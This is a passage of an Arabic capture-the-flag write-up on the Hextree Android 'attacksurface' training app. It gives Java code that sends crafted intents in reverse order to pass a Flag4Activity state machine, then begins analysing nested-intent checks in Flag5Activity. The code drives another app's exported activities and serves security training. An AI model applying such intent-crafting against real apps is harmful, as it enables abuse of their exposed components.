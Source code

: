 - الـ activity ده **بيطبق "state machine"** اللي **بيفتكر حالته** عبر الاستدعاءات (استدعاء activity)، باستخدام `SolvedPreferences`. حسب **الحالة الحالية** والـ **action** للـ `Intent` الجاي، **بينتقل للحالة اللي بعدها** أو يعيد تشغيل العملية.
- بس لو **تعدي كل الحالات صح** بالترتيب (`INIT ➔ PREPARE ➔ BUILD ➔ GET_FLAG`)، **هيديك الـ flag**

#### الحل

طيب المفروض نبعتهم بالترتيب ده؟ جربت وفشل، ليه؟ ده لأن لما تبعتهم بالترتيب التصاعدي، آخر intent هيكون أول حاجة المستخدم يتعامل معاها فهيبدأ من الآخر (ترتيب عكسي).

ده ما يعرف ب ***activity back stack*** في الأندرويد او  **Last-In-First-Out (LIFO)**  (الاخير هو الاول في الظهور) ف حل بسيط يكون إنك تبعت  intents بترتيب عكسي من الأول


```java
Intent TheKey = new Intent();  
TheKey.setComponent(new ComponentName(
"io.hextree.attacksurface",
"io.hextree.attacksurface.activities.Flag5Activity"));    
startActivity(TheKey);  
  
Intent getFlagIntent = new Intent();  
getFlagIntent.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag4Activity"));  
getFlagIntent.setAction("GET_FLAG_ACTION");  
startActivity(getFlagIntent);  
  
Intent buildIntent = new Intent();  
buildIntent.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag4Activity"));  
buildIntent.setAction("BUILD_ACTION");  
startActivity(buildIntent);  
  
Intent prepareIntent = new Intent();  
prepareIntent.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag4Activity"));  
prepareIntent.setAction("PREPARE_ACTION");  
startActivity(prepareIntent);
```

### Flag 5

#### تحليل الكود

```java
public void onCreate(Bundle bundle) {

        Intent intent = getIntent();
        Intent intent2 = (Intent) intent.getParcelableExtra("android.intent.extra.INTENT");
        if (intent2 == null || intent2.getIntExtra("return", -1) != 42) {
            return;
        }
        this.f.addTag(42);
        Intent intent3 = (Intent) intent2.getParcelableExtra("nextIntent");
        this.nextIntent = intent3;
        if (intent3 == null || intent3.getStringExtra("reason") == null) {
            return;
        }
        this.f.addTag("nextIntent");
        if (this.nextIntent.getStringExtra("reason").equals("back")) {
            this.f.addTag(this.nextIntent.getStringExtra("reason"));
            success(this);
        } else if (this.nextIntent.getStringExtra("reason").equals("next")) {
```